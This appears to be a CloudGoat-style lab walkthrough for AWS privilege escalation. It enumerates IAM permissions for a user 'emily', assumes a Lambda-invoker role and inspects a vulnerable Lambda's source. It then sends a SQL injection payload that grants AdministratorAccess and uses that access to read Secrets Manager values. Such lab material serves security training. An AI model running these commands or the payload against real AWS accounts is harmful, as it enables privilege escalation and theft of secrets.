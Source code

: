 1. Get permissions for the 'emily' user.
```bash
# This command will give you the ARN & full name of you user.
aws --profile emily --region eu-central-1 sts get-caller-identity
# This command will list the policies attached to your user.
aws --profile emily --region eu-central-1 iam list-user-policies --user-name emily
# This command will list all of your permissions.
aws --profile emily --region eu-central-1 iam get-user-policy --user-name emily --policy-name Emily-standard-user-assumer
```

2. List all roles, assume a role for privesc.
```bash
# This command will list all the roles in your account, one of which should be assumable. 
aws --profile emily --region eu-central-1 iam list-roles
# This command will list all policies for the target role
aws --profile emily --region eu-central-1 iam list-role-policies --role-name [target-role]
# This command will get you credentials for the cloudgoat role that can invoke lambdas.
aws --profile emily --region eu-central-1 sts assume-role --role-arn [lambda-invoker_arn] --role-session-name lambdaInvoker
```

3. List lambdas to identify the target (vulnerable) lambda.
```bash
# This command will show you all lambda functions. The function can apply a predefined set of 
# aws managed policies to users (in reality it can only modify the emily user).
aws --profile assumed_role --region eu-central-1 lambda list-functions
# download function
```

4. Look at the lambda source code. You should see the database structure in a comment, as well as the code that is handling input parameters. It's vulnerable to an injection, and we'll see what an exploit looks like in the next step.
```bash
# This command will return a bunch of information about the lambda that can apply policies to emily.
# part of this information is a link to a url that will download the deployment package, which
# contains the source code for the function. Read over that source code to discover a vulnerability. 
aws --profile assumed_role --region eu-central-1 lambda get-function --function-name [policy_applier_lambda_name]
```

5. Invoke the role applier lambda function, passing the name of the emily user and the injection payload. 
```bash
# The following command will send a SQL injection payload to the lambda function
aws --profile assumed_role --region eu-central-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": "emily"}' out.txt
# cat the results to confirm everything is working properly
cat out.txt
```
6. Now that emily is an admin, use credentials for that user to list secrets from secretsmanager. 
```bash
# This command will list all the secrets in secretsmanager
aws --profile emily --region eu-central-1 secretsmanager list-secrets
# This command will get the value for a specific secret
aws --profile emily --region eu-central-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
```

